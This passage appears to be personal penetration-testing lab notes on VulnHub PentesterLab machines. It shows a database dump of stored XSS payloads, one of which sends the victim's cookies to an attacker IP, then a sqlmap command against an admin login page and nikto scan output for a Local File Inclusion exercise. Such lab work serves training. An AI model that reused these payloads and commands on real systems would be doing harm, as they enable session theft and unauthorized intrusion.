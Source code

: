 ```

+----+---------+--------------------------------------------------------------------------------------------------+---------+---------+-----------+
| id | post_id | text                                                                                             | title   | author  | published |
+----+---------+--------------------------------------------------------------------------------------------------+---------+---------+-----------+
| 1  | 2       | <script>alert("XSS")</script>                                                                    | <blank> | <blank> | NULL      |
| 2  | 2       |         <script>location.href='http://192.168.119.132/index.php?test='+document.cookie;</script> | <blank> | <blank> | NULL      |
| 3  | 3       |         rt                                                                                       | df      | df      | NULL      |
| 4  | 3       |         <script>location.href='http://192.168.119.132/index.php?test='+document.cookie;</script> | <blank> | <blank> | NULL      |
| 5  | 1       |         <script>location.href='http://192.168.119.132/index.php?test='+document.cookie;</script> | <blank> | <blank> | NULL      |
+----+---------+--------------------------------------------------------------------------------------------------+---------+---------+-----------+
```
try login page:
```
sqlmap -u "http://192.168.119.134/admin/login.php" --data="user=hello&password=23c"
```


# Local File Inclusion
Vulhunb: https://www.vulnhub.com/entry/pentester-lab-php-include-and-post-exploitation,79/

Use nikto:
```
nikto -h 192.168.119.135

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.119.135
+ Target Hostname:    192.168.119.135
+ Target Port:        80
+ Start Time:         2021-03-12 20:47:51 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.16 (Debian)
+ Retrieved x-powered-by header: PHP/5.3.2
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.2.16 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.0.1".
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ /index.php: PHP include error may indicate local or remote file inclusion is possible.
+ OSVDB-3126: /submit?setoption=q&option=allowed_ips&value=255.255.255.255: MLdonkey 2.x allows administrative interface access to be access from any IP. This is typically only found on port 4080.
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
```